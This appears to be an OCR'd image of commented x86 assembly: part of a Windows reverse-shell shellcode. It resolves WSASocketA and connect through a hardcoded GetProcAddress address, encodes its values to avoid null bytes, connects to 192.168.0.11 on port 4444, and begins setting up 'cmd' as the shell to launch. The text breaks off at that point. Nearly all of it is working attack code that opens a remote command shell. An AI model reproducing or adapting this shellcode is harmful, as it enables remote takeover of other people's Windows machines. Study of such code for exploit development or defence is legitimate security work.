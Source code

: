 ~~~

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

.callWSASocketA:
	xor ebx, ebx		;clear ebx
	push ebx;		;dwFlags=NULL
	push ebx;		;g=NULL
	push ebx;		;lpProtocolInfo=NULL
	
	xor ecx, ecx		;clear ecx
	mov cl, 0x6		;protocol=6
	push ecx

	inc ebx			;ebx==1
	push ebx		;type=1
	inc ebx			;af=2
	push ebx

	call eax		;call WSASocketA

	push eax		;save eax in edx
	pop edi			;...

.getConnect:
	xor eax, eax

	mov eax, 0x74636590     ;'\x90tce'
	shr eax, 8
	push eax
	push 0x6e6e6f63     ;'nnoc'
	push esp	    ;pointer to the string

	push ebp	    ;socket handler
	
	mov ebx, 0x7c80ae40 ;addr of GetProcAddress
	call ebx

.callConnect:
	;set up sockaddr_in
	mov ebx, 0x1c11b9d1	;the IP plus 0x11111111 so we avoid NULLs (IP=192.168.0.11)
	sub ebx, 0x11111111	;subtract from ebx to obtain the real IP
	push ebx		;push sin_addr
	push word 0x5c11	;0x115c = (port 4444)

	xor ebx, ebx
	mov bl, 2
	push bx	
	mov edx, esp

	push byte 0x10
	push edx
	push edi

	call eax

.shell:
	mov ebx, 0x646D6390    ; push our command line: 'cmd',0 padded with \x90
	shr ebx, 8
	push ebx
	mov ebx, esp           ; save a pointer to the command line
~~~